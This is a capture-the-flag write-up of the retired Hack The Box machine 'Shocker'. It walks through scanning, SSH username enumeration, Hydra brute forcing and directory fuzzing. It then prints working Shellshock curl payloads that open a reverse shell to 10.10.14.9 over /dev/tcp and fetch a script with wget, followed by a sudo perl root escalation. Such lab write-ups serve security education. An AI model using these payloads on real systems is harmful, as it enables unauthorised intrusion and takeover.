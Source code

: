 ```yaml
---
title: "Hack The Box "Shocker" Writeup"
date: 2023-10-01T00:12:29-04:00
draft: false
---
```


[Shocker](https://app.hackthebox.com/machines/Shocker) is a
retired easy Linux box by mrb3n. It was released on October
3rd, 2017.

## Scanning

I began by scanning the machine:
```
$ nmap -A -T4 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 21:59 EDT
Nmap scan report for 10.10.10.56
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have Apache running on port 80 and OpenSHH on port 2222.

## Enumeration

### Port 2222

I usually start with SSH because if password bruteforcing
seems to be a valid avenue, it's best to start it early.
Let's attempt to connect to the server:

```bash
$ ssh 10.10.10.56 -p 2222
```

We are asked for a password--password authentication is
enabled. Next, let's see if there are any salient
vulnerabilities for this version of OpenSSH, 7.2p2.

```
$ searchsploit openssh 7.2p2
-------------------------------------- -----------------------
 Exploit Title                        |  Path
-------------------------------------- -----------------------
OpenSSH 7.2p2 - Username Enumeration  | linux/remote/40136.py
OpenSSHd 7.2p2 - Username Enumeration | linux/remote/40113.txt
-------------------------------------- -----------------------
```

Sure enough, this version is vulnerable to username
enumeration through a side-channel timing attack when
submitting very long passwords. I downloaded the script, set
up a virtual environment, installed the dependencies, and
monkey-patched `time.clock = time.time` because the former
was deprecated. I ran it multiple times with a small list of
17 usernames--the following is one output:

```
./40136.py -U usernames.txt 10.10.10.56:2222 --samples 64 --trials 32
...
[*] Baseline mean for host 10.10.10.56 is 0.36141190990324945 seconds.
[*] Baseline variation for host 10.10.10.56 is 0.003058627316928219 seconds.
[*] Defining timing of x < 0.3705877918540341 as non-existing user.
[*] Testing your users...
[-] root - timing: 0.3622346520423889
[-] admin - timing: 0.3608233258128166
[-] test - timing: 0.36106352508068085
[-] guest - timing: 0.3625797629356384
[+] info - timing: 0.3719070628285408
[-] adm - timing: 0.36521296203136444
[-] mysql - timing: 0.3658187761902809
[-] user - timing: 0.3619757816195488
[-] administrator - timing: 0.3607597276568413
[-] oracle - timing: 0.3613279387354851
[-] ftp - timing: 0.3622165694832802
[-] pi - timing: 0.36343473941087723
[-] puppet - timing: 0.36332932114601135
[-] ansible - timing: 0.36283544450998306
[-] ec2-user - timing: 0.362905390560627
[-] vagrant - timing: 0.36412063241004944
[-] azureuser - timing: 0.3640487641096115
```

I found the results across iterations to be inconsistent and
unconvincing, though the user `info` was returned
consistently enough for me to run Hydra against the service
with a small password list of the top 1,000 most common
passwords:

```bash
hydra -l info -P 1000-passwords.txt ssh://10.10.10.56:2222 -t 4
```

### Port 80

While Hydra is running, let's check out the website:

![](/images/hack-the-box-shocker-writeup/website.jpg)

This is the only content, and there's nothing interesting in
the source. Let's try directory fuzzing with Gobuster:

```bash
gobuster dir --url http://10.10.10.56/ --wordlist dirb.txt
```

While that was running, I researched vulnerabilities in
version 2.4.18 of Apache. I didn't find anything
particularly relevant for version 2.4.18 but I did find an
interesting [privilege escalation
vulnerability](https://www.exploit-db.com/exploits/46676)
that I might've been able to use later.

Gobuster returned the following:
```
/cgi-bin/      (Status: 403) [Size: 294]
/.hta          (Status: 403) [Size: 290]
/.htaccess     (Status: 403) [Size: 295]
/.htaccess     (Status: 403) [Size: 295]
/.htpasswd     (Status: 403) [Size: 295]
/.htpasswd     (Status: 403) [Size: 295]
/index.html    (Status: 200) [Size: 137]
/server-status (Status: 403) [Size: 299]
/server-status (Status: 403) [Size: 299]
```

Let's run it again on `/cgi-bin/`:
```
$ gobuster dir --url http://10.10.10.56:/cgi-bin/ --wordlist cgibin.txt
...
/user.sh              (Status: 200) [Size: 118]
```

I made my own set of wordlists for `/cgi-bin/` enumeration
which I used for this box because I was dissatisfied with
existing lists. You can get them
[here](https://github.com/sawshep/cgi-bin/enum-wordlists).

Anyways, let's make a request to the script:

```
$ curl http://10.10.10.56:80/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 01:47:41 up 3 min,  0 users,  load average: 0.03, 0.07, 0.03
```

As is self-described, it's a script that runs `uptime`. This
server could possibly be vulnerable to
[Shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271),
an attack that exploits a vulnerability in how Bash
processes environment variables to remotely execute
arbitrary code. That's why I didn't see it when initially
researching vulnerabilities for the web server--it's
technically a vulnerability in Bash.

## Exploitation

Let's see if Shellshock works:
```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo Vulnerble!'" http://10.10.10.56:80/cgi-bin/user.sh
Vulnerable!
```

Sure enough, we get a response back from the server of the
output of our command! Let's pop a reverse shell. We'll
start by listening on our host:

```bash
ncat -lvnp 4444
```

Then, we'll connect to the listener on the target through
Shellshock. I used Bash's virtual TCP files to connect as
Netcat was not present on the system:

```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'sh -i >& /dev/tcp/10.10.14.9/4444 0>&1'" http://10.10.10.56:80/cgi-bin/user.sh
$ whoami
shelly
```

Great! We can get the user flag with `cat
/home/shelly/user.txt`.

## Privilege Escalation

Next, I transferred over the [Linux Smart Enumeration
tool](https://github.com/diego-treitos/linux-smart-enumeration)
Because I only have port 4444 opened on my firewall for Hack
The Box, I had to drop the shell, serve the script on an
HTTP server, and use Shellshock to download it:

```bash
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'wget http://10.10.14.9:4444/lse_cve.sh -O /tmp/lse.sh'" http://10.10.10.56:80/cgi-bin/user.sh
```

After marking it executable and running it, I found some
interesting information:

```
...
[!] sud010 Can we list sudo commands without a password?... yes!
...
[!] ctn210 Is the user a member of any lxc/lxd group?...... yes!
...
```

Being a member of the LXC group allows us to mount the root
filesystem in a container and read files which we do not
normally have the privilege to read. Before proceeding with
that exploit, let's check what we can run with `sudo`:

```
$ sudo -l
...
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Being able to run Perl as `root` with no password is much
easier to exploit than being a member of the LXC group.
Let's open a shell as `root`:

```bash
sudo perl -e 'exec "/bin/sh";'
```

Finally, we can read `/root/root.txt` and pwn the machine
for good.

